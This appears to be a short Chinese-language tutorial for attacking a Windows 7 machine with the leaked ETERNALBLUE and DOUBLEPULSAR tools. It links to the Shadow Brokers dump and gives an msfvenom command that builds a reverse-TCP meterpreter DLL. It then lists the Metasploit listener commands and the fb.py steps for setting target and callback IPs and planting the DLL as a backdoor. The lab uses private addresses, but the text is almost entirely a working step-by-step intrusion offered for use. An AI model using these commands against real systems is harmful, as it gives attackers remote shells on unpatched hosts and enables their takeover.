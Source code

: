 # 0day
方程式 0day ETERNALBLUE
方程式 0day ETERNALBLUE 
环境部署
攻击环境:32位系统[win7 2003均可]&Kali系统
靶机环境:win7 x86
安装程序: pywin32-221.win32-py2.6与python-2.6.6[均已打包]
已经今天的主角影子经纪人公布的方程式0day ETERNALBLUE
号称入侵一切Windows主机[深切会到帝国主义的强大]
 下载地址:https://github.com/misterch0c/shadowbroker
环境介绍
攻击者win2003: 192.168.220.128
攻击者Kali：192.168.220.129
受害者win7: 192.168.220.132
攻击环节
进入Kali
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=5555 -f dll > s.dll
msfconsole 启动msf命令
msf > use exploit/multi/handler
msf > set LHOST IP
msf > set LPORT 5555
msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf > exploit  #开启监听后我们开始攻击配置
进入Win2003
解压shadowbroker进入windows目录，新建listeningposts目录。#这里我就不演示了
运行fb.py，创建一个攻击项目:
TargetIP输入受害者IP
CallbackIP输入攻击者IP
使用重定向 no
输入use Eternalblue
选择目标系统是根据实际情况选择
选择传输装置是选择FB
输入use Doublepulsar
目标系统:根据系统选择
种植后门:选择RunDLL
讲MSF生成的DLL木马位置写入进去
成功
